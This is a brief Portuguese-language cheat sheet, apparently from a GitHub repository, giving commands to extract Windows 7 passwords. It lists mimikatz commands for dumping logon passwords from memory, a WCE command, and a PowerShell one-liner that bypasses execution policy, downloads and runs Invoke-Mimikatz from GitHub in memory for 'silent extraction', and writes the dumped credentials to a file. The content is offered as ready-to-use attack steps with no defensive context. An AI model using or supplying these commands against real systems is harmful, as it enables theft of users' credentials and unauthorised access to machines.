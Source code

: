 ### Obter senha do Windows 7 (mimikatz)
~~~~
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
~~~~

### Obter senha do Windows 7 (WCE)
~~~
wce.exe -w
~~~

Uso do Mimikatz de dentro da PowerShell diretamente na memória para fazer uma extração silenciosa
~~~
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds" > C:\Users\maicon\Downloads\pass.txt
~~~
